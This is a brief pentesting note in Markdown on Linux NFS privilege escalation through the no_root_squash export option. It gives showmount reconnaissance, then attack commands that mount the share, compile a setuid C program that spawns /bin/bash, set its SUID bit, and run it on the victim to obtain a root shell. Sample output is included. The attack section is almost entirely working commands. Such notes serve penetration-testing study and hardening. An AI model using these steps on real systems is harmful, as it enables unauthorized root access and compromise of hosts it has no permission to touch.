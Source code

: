 ```yaml
---
aliases:
  - Linux NFS Root Squashing
tags:
  - tech
  - cybsec
  - linux
  - privilege_escalation
  - privesc
  - nfs
  - nfs_root_squashing
author: Mehdi N Tehrani
creat_date: 2023-12-18
category: Cyber Security
subcategory: Linux Pentesting
---
```

## Reconn
Use the following command to find mountable dirs:
`showmount -e <target_ip>`

if we look at  `/etc/exports` in the target and find the following
```
/path *(rw,insecure,no_root_squash)
```
`no_root_squash` means a process can be elevated to root here

## Attack
on attacker machine
```sh
mount -o rw,vers=2 <target_ip>:/path /tmp/mountme
echo 'int main() { setuid(0); setgid(0); system("/bin/bash"); return 0; }' > xpl.c
gcc -o /tmp/mountme/xpl xpl.c
chmod +s /tmp/mountme/xpl
```

on victim machine
```
$ /path/xpl
# whoami
root
# ls -la /path/xpl
-rwsr-sr-x  1  root  root   .........  xpl
```
